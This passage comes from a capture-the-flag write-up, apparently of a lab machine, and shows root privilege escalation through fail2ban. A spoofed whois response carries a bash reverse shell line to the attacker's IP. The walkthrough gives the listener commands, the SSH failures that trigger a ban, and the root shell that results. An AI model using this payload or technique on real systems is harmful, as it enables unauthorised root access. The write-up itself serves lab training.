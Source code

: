 Now, running `whois 10.10.14.169` returns our reverse shell text just like we want: `~| bash -c 'bash -i >& /dev/tcp/10.10.14.169/4348 0>&1'`.

When `fail2ban` runs `whois` it will also get this text (instead of a legitimate whois response) which will be piped into the `mail` command and will be run because of the `~|` characters.

All we have to do now is trigger a `fail2ban` `banaction`. We can see that the sshd jail is enabled by looking at the `/etc/fail2ban/jail.d/defaults-debian.conf` file. So, we can trigger a `banaction` by failing to sign into SSH as `root` three times (make sure you have `nc -nvlp 43 < revshell` and `nc -nvlp 4348` running):

```
$ ssh root@admirer-gallery.htb
root@admirer-gallery.htb's password:
Permission denied, please try again.
root@admirer-gallery.htb's password:
Permission denied, please try again.
root@admirer-gallery.htb's password:
root@admirer-gallery.htb: Permission denied (publickey,password).
```

In our window running `nc -nvlp 43 < revshell` we see the following:

```
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.137] 51638
10.10.14.169
```

So, the connection went through and the reverse shell was sent. Now, we just kill that `nc` so the connection is closed and we immediately get a reverse shell in our terminal running `nc -nvlp 4348`:

```
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.137] 42294
bash: cannot set terminal process group (18074): Inappropriate ioctl for device
bash: no job control in this shell
root@admirertoo:/# cat /root/root.txt
cat /root/root.txt
[ROOT FLAG]
```

This shell only lasts a few seconds so be quick to get the `root.txt` flag.
